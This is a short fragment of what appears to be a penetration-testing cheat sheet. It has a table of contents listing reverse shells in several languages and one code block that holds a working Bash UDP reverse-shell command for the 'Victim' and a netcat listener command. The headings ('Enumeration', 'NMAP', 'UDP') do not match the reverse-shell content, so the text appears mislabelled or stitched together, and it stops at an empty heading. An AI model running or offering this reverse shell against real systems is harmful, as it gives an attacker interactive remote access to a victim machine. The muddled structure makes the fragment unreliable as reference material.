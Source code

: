 # Enumeration

## Summary
* [Reverse Shell](#reverse-shell)
    * [Bash TCP](#bash-tcp)
    * [Bash UDP](#bash-udp)
    * [Socat](#socat)
    * [Perl](#perl)
    * [Python](#python)
    * [PHP](#php)
    * [Ruby](#ruby)
    * [Golang](#golang)


### NMAP

```bash
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```
### UDP
